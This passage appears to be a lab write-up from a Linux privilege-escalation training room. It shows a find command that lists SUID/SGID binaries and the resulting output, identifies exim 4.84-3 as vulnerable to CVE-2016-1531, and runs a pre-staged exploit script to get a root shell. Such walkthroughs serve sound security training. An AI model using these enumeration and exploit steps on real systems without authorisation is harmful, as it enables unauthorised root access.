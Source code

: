 `No answer needed`

## SUID / SGID Executables - Known Exploits

Find all the SUID/SGID executables on the Debian VM:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. [Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at **/home/user/tools/suid/exim/cve-2016-1531.sh.**

Run the exploit script to gain a root shell:

`/home/user/tools/suid/exim/cve-2016-1531.sh`

**Remember to exit out of the root shell before continuing!**

```
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry

-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

* [Exim 4.84-3 - Local Privilege Escalation](https://www.exploit-db.com/exploits/39535)

```
user@debian:~$ /home/user/tools/suid/exim/cve-2016-1531.sh
[ CVE-2016-1531 local root exploit
sh-4.1# whoami
root
sh-4.1#
```
